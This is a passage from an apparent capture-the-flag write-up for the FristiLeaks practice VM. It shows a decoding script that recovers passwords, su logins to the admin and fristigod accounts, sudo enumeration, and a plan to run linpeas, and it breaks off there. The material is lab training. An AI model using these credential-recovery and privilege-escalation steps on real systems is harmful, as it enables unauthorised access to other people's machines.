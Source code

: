 ```python
    return base64.b64decode(base64String)

print decodeString(sys.argv[1])
```
Then decode the strings like so:
```bash
kali@kali:~/Desktop/osc/friski13$ python decode.py =RFn0AKnlMHMPIzpyuTI0ITG
LetThereBeFristi!

kali@kali:~/Desktop/osc/friski13$ python decode.py mVGZ3O3omkJLmy2pcuTq
thisisalsopw123
```
Then I can use the second password to switch to the admin user.
```bash
bash-4.1$ su - admin
su - admin
Password: thisisalsopw123

[admin@localhost ~]$ 
```

Additionally, the other password is for the fristigod account.
```bash
[admin@localhost home]$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ whoami
whoami
fristigod
```

### 5. Enumerate from user
Unfortunately there is no sudo perms on admin.
```bash
admin@localhost ~]$ sudo -l
[sudo] password for admin: thisisalsopw123

Sorry, user admin may not run sudo on localhost.
```
Fristigod, however...
```bash
-bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```
Try running this binary using sudo:
```bash
-bash-4.1$ sudo /var/fristigod/.secret_admin_stuff/doCom
Sorry, user fristigod is not allowed to execute '/var/fristigod/.secret_admin_stuff/doCom' as root on localhost.localdomain.
```
Not really sure what to do at this point, so I go back to normal enumeration. I drop linpeas and run it (see linpeas_out.txt):